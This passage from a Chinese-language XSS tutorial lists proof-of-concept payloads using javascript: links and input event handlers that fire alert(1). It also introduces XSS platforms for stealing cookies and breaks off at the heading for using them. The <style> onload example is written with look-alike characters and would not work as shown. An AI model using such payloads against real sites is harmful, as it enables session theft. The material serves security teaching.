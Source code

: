 
### **1.6.3 \<a>**

```html
示例：<a href="http://www.qq.com">qq</a>
```

```html
示例：<a href=javascript:alert('1')>test</a>
```



### 1.6.4 \<input>

按下按键时触发

```html
示例：<input type="text" onkeydown="alert(1)">
```

按下按键时触发

```html
示例：<input type="text" onkeypress="alert(1)">
```

松开按键式时触发

```html
示例：<input type="text" onkeyup="alert(1)">
```

竞争焦点，从而触发onblur事件

```html
示例：<input onblur=alert("xss") autofocus><input autofocus>
```



### 1.6.5 \<style>

```html
示例：<style οnlοad=alert(1)></style>
```



# **2 XSS平台**

## **2.1 XSS平台介绍**

由于XSS的各种payload语句构建起来比较复杂，所以一般情况下都是使用XSS平台自动生成的payload去获取相关的cookie。但是在XSS平台使用过程中也需要注意平台否存在其他的恶意代码，同时在你测试某一个网站的时候信息会发送到这个平台，平台有就会知道这个漏洞，所以还是需要注意。

至于XSS平台的话，网上有很多的XSS平台，这里就不推荐了。

## **2.2 XSS平台使用**
